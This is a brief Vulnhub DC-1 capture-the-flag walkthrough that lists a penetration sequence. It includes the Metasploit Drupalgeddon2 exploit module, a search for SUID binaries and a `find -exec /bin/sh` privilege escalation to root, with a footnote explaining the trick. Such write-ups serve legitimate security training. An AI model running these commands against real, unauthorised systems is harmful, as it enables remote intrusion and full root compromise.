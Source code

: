 ## Vulnhub Walkthrough

**Penetrating Methodology:**

- IP Discovery using netdiscover
- Network scanning (Nmap)
- Surfing HTTPS service port (80)
- Finding Drupal CMS
- Exploiting Drupalgeddon2 to get a reverse shell
- Finding files with SUID bit set
- Finding the “find” command with SUID bit set
- Getting root shell with “find” command
- Getting final flag

`use exploit/unix/webapp/drupal_drupalgeddon2`

`find / -perm -u=s -type f 2>/dev/null`

`locate /usr/bin/find`

`touch raj`

`find raj -exec "whoami" \;` [^1]

`find raj -exec "/bin/sh" \;`

[原文](https://www.hackingarticles.in/dc-1-vulnhub-walkthrough/)

---

[^1]: As “find” command has SUID bit set, we can execute the command as “root” user. We create a file called “raj” and use “find” command to check if is executing the commands as root user, the reason for creating a file is so that we can use with “find” command. As running it with a single file will run the command only once.
